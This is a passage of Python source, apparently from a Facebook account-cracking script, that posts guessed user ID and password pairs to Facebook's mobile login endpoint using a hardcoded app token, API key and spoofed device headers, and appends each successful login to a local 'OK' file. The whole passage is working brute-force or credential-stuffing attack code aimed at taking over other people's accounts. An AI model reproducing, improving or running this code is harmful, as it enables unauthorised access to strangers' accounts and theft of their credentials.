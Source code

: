                 'family_device_id': str(uuid.uuid4()),
                'credentials_type': 'device_based_login_password',
                'error_detail_type': 'button_with_disabled',
                'source': 'device_based_login',
                'email': str(uid),
                'password': str(pw),
                'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                'generate_session_cookies': '1',
                'meta_inf_fbmeta': '',
                'advertiser_id': str(uuid.uuid4()),
                'currently_logged_in_userid': '0',
                'locale': 'en_US',
                'client_country_code': 'US',
                'method': 'auth.login',
                'fb_api_req_friendly_name': 'authenticate',
                'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler',
                'api_key': '882a8490361da98702bf97a021ddc14d'
            }
            headers = {
                'User-Agent': window1(),
                'Content-Type': 'application/x-www-form-urlencoded',
                'Host': 'graph.facebook.com',
                'X-FB-Net-HNI': '25227',
                'X-FB-SIM-HNI': '29752',
                'X-FB-Connection-Type': 'MOBILE.LTE',
                'X-Tigon-Is-Retry': 'False',
                'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;',
                'x-fb-device-group': '5120',
                'X-FB-Friendly-Name': 'ViewerReactionsMutation',
                'X-FB-Request-Analytics-Tags': 'graphservice',
                'X-FB-HTTP-Engine': 'Liger',
                'X-FB-Client-IP': 'True',
                'X-FB-Server-Cluster': 'True',
                'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62'
            }
            res = session.post('https://b-graph.facebook.com/auth/login', data=data, headers=headers, allow_redirects=False).json()
            if 'session_key' in res:
                print(f"\r\r\x1b[1;37m>\x1b[38;5;196m├Ч\x1b[1;37m<\x1b[38;5;196m(\x1b[1;37mAHB\x1b[38;5;196m) \x1b[1;97m= \x1b[38;5;46m{uid} \x1b[1;97m= \x1b[38;5;46m{pw} \x1b[1;97m= \x1b[38;5;45m{creationyear(uid)}")
                open('/sdcard/AHB-OLD-M1-OK.txt', 'a').write(f"{uid}|{pw}\n")
                oks.append(uid)
                break
            elif 'www.facebook.com' in res.get('error', {}).get('message', ''):
                print(f"\r\r\x1b[1;37m\x1b[38;5;196m\x1b[1;37m\x1b[38;5;196m(\x1b[1;37mAHB\x1b[38;5;196m) \x1b[1;97m= \x1b[38;5;46m{uid} \x1b[1;97m= \x1b[38;5;46m{pw} \x1b[1;97m= \x1b[38;5;45m{creationyear(uid)}")
                open('/sdcard/AHB-OLD-M1-OK.txt', 'a').write(f"{uid}|{pw}\n")
                oks.append(uid)
                break
        loop += 1
    except Exception:
        time.sleep(5)
